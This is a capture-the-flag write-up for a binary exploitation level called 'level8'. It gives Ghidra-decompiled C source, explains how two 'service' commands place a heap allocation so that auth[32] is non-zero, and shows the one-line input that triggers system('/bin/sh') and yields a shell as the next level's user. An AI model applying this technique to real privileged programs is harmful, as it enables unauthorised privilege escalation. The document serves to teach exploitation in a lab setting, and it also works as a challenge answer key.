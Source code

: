 level8
======

Decompilation
-------------

Because the main function is a bit more complex than usual, I used ghidra to decompile it.
The main function looks like this:
```c
#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdio.h>
#include <string.h>

typedef struct	obj
{
	char	*auth;
	char	*service;
}				obj_t;

obj_t			obj;

int				main(void)
{
	char	input_buffer [132];

	while (true) {
		printf("%p, %p \n", obj.auth, obj.service);

		if (!fgets(input_buffer, 128, stdin))
			return 0;

		if (!strncmp(input_buffer, "auth ", 5)) {
			obj.auth = malloc(4);

			*obj.auth = '\0';

			if (strlen(input_buffer + 5) < 30)
				strcpy(obj.auth, input_buffer + 5);
		}

		if (!strncmp(input_buffer, "reset", 5))
			free(obj.auth);

		if (!strncmp(input_buffer, "service", 6))
			obj.service = strdup(input_buffer + 7);

		if (!strncmp(input_buffer, "login", 5)) {
			if (obj.auth[32] == '\0')
				fwrite("Password:\n", 1, 10, stdout);
			else
				system("/bin/sh");
		}
	}
}
```

Exploitation
------------

We need to set the byte at obj.auth[32] to any value other than 0.
If we call service multiple times, we may copy something at this offset.
Service will copy the bytes following the service command, which will be '\n' in our case.

After callig auth followed by service, the memory layout looks like this:
```sh
./level8 <<< $'auth AAAA\nservice'
```
```c
(nil), (nil)
0x93265c0, (nil)
0x93265c0, 0x93265d0
```
|  auth  |      | service |      |
|:------:|:----:|:-------:|:----:|
|  0x00  | 0x04 |   0x10  | 0x14 |
| "AAAA" |      | "\n"    |      |

If we call service a second time we should be able to copy "\n" to obj.auth[32].
```sh
./level8 <<< $'auth \nservice\nservice'
```
```c
(nil), (nil)
0x87305c0, (nil)
0x87305c0, 0x87305d0
0x87305c0, 0x87305e0
```
Indeed, 0x87305e0 - 0x87305c0 = 0x20 = 32.

Let's try to call login:
```sh
(echo -e 'auth \nservice\nservice\nlogin'; cat) | ./level8
```
```
0x804a008, (nil)
0x804a008, 0x804a018
0x804a008, 0x804a028
```

```sh
whoami
```
```
level9
```
